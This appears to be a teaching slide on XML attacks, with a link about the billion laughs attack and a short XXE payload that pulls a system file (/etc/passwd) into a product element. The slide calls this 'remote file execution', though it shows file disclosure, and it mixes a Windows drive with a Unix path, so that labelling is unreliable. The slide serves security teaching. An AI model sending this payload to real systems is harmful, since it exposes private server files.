

# Specific examples
Billion laughs attack: https://en.wikipedia.org/wiki/Billion_laughs_attack

Remote file execution:
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file://C:/etc/passwd"> ]>
<product id="1">
    <description>&xxe;</description>
</product>